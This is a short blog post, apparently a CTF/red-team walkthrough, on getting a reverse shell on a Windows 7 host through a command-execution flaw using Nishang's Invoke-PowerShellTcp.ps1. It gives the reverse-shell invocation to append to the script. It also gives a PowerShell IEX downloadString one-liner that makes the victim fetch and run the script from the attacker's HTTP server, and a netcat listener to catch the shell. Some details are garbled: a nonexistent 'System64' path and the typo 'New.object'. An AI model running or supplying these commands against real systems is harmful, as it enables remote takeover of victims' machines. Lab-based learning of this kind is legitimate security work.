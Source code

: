 ```yaml
---
layout: post
title:  "Getting Windows 7 Reverse Shell Using Nishang"
date:   2019-02-23 08:12:24 +0530
categories: redteam ctf
---
```


Nishang has a collection of scripts which used in offensive security. In this post I'm using the sctipt "Invoke-PowerShellTcp.ps1" to 
get the reverse shell. 

## Background

I have found a windows machine which has command execution vulnerability. I was able to ping from the windows host to my host. The next step
is getting the reverse shell. For this task I'm using Nishang.

Download the script;

[Here is the link to the script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

copy below line to the end of the file,

```
PS > Invoke-PowerShellTcp -Reverse -IPAddress <Attacker-IP> -Port 4444
```
![Copy below line](https://raw.githubusercontent.com/janithmalinga/janithmalinga.github.io/master/_images/_fli-smtp-shell/windows-nishang-01.png)

Use this command to check powershell directory we use is correct or not,
```
c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe ping 10.10.14.3
```

Capture the traffic using tcpdump to check the victim is pinging or not.

### Windows default binary paths are,

windows 32 bit
```
c:\Windows\System32
c:\Windows\System64
```
Windows 64 bit
```
c:\Windows\SysNative
```

## Final part

Everything is set, Now we are going to run powershell on victim host to download our nishang script and run it,

now run simpleHTTPServer on above script file located path,
![Running simple http server](https://raw.githubusercontent.com/janithmalinga/janithmalinga.github.io/master/_images/_fli-smtp-shell/windows-nishang-02.png)

run below command on victim,
```
c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New.object Net.webClient).downloadString('http://10.10.14.3/Invoke-PowerShellTcp.ps1')
```

Using a nc listner we can catch the reverse shell.
